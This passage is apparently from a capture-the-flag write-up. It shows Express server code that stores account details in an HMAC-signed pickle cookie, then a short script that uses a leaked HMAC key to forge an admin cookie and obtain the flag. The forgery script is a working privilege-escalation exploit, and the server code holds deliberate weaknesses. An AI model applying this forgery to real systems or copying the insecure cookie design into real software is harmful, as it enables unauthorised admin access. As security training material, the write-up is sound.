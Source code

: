 ```
    if (('password' in req.body) && ('username' in req.body)) {
      u = req.body.username.replace(/[^a-zA-z0-9]/g,''); // protect against
      p = req.body.password.replace(/[^a-zA-z0-9]/g,''); // …injections

      var accountinfo = "(dp0\nS'username'\np1\nS'"+u+"'\np2\nsS'password'\np3\nS'"+p+"'\np4\nsS'admin'\np5\nI00\ns."
      var signature = crypto.createHmac('sha256', HMAC_KEY);
      signature.update(accountinfo);
      res.cookie('accountinfo', accountinfo, { maxAge: 31536000 }) // 1 year
      res.cookie('signature', signature.digest('hex'), { maxAge: 31536000 })
    }
    res.redirect("/"); // this is the absolute path, /
  }
  else {
    res.redirect('/?error'); // this is the relative path /account/?error
  }
  res.end();
});
router.get('/logout', function (req, res, next) {
  res.clearCookie('accountinfo');
  res.clearCookie('signature');
  res.redirect("/");
  res.end();
});

module.exports = router;
```

`not the flag. you must become admin`

We can now sign our cookie with admin set to 1 !


```
var crypto = require('crypto');
var accountinfo = "(dp0\nS'username'\np1\nS'agix'\np2\nsS'password'\np3\nS'agix'\np4\nsS'admin'\np5\nI01\ns."

const HMAC_KEY = 'gkcB2CSY1VZ7sri2dmafyyHl0qa8tJ65';

var signature = crypto.createHmac('sha256', HMAC_KEY);
signature.update(accountinfo);
console.log(signature.digest('hex'));

console.log(escape(accountinfo));
```

`The flag is:<pre>Jg7CGdFs3GaefwlPP8L3gPcnfY6hg9XV</pre>`
